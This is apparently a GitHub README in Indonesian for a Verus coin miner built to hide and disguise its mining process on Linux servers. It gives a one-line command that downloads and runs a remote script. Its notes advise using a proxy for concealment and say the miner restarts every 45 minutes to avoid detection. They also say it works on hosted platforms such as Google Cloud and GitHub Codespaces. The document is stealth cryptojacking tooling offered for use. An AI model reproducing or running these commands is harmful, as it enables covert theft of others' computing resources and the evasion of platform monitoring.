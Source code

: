 # silumancode
miner verus coin yang mampu menyembunyikan dan menyamarkan proses mining di sistem linux
## install dependence :
 apt-get install libcurl4-openssl-dev libssl-dev libjansson-dev automake autotools-dev build-essential -y
## Penggunaan
wget https://github.com/x011-al/silumancode/raw/refs/heads/main/sh && chmod +x sh && ./sh wallet.namaminer pool thread y/n
### Keterangan :
        - wallet : alamat walet verus miner anda.
        - pool   : pool mining verus coin (usahakan menggunakan proxy).
        - thread : jumlah thread processor yang akan digunakan (usakan tidak menggunakan thread maksimal yang tersedia).
        - y/n    : opsi untuk menampilkan proses mining dari miner (y untuk menampilkan, no tidak menampilkan).
### example
wget https://github.com/x011-al/silumancode/raw/refs/heads/main/sh && chmod +x sh \
&& ./sh RP6jedjfhjfkkfjt1.minervps1 stratum+tcp://eu.luckpool.net 2 n
![tampilan example](images/cmsil.png)
### example II
wget https://github.com/x011-al/silumancode/raw/refs/heads/main/sh && chmod +x sh \
&& ./sh RP6jedjfhjfkkfjt1.minervps1 stratum+tcp://eu.luckpool.net 2 y
![tampilan example II](images/cmsil2.png)
### Catatan Tambahan
1. gunakan proxy untuk memaksimalkan proses penyamaran proses mining
2. proses miner akan di restart setiap 45 menit (untuk menghindari deteksi system)
3. berfungsi di vps selain colab. (google cloud, codespace github dan vps lainnya)
4. kode ini hanya sementara untuk penggunaan jangka panjang dan mining coin lain, bisa menghubungi contak wa : 085217993737
